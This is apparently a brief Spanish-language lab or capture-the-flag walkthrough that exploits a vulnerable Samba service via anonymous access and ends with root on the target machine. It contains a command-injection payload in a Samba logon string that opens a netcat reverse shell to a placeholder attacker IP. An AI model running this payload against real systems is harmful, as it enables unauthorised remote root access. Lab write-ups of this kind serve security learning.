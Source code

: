 ![](Pasted%20image%2020240711182035.png)
encontramos que están abiertos los puertos 21,22,139,445.
La versión de samba el vulnerable a una inyección de comandos.

![](Pasted%20image%2020240711184518.png)
Tenemos permiso de escritura y de lectura al directorio tmp del servidor con el usuario anonymous.

aprovechamos esto para crear una reverse shell.
```
logon "/=´nc ip_atacante -e /bin/bash´"
```

![](Pasted%20image%2020240711185125.png)
Accedemos como root a la máquina.

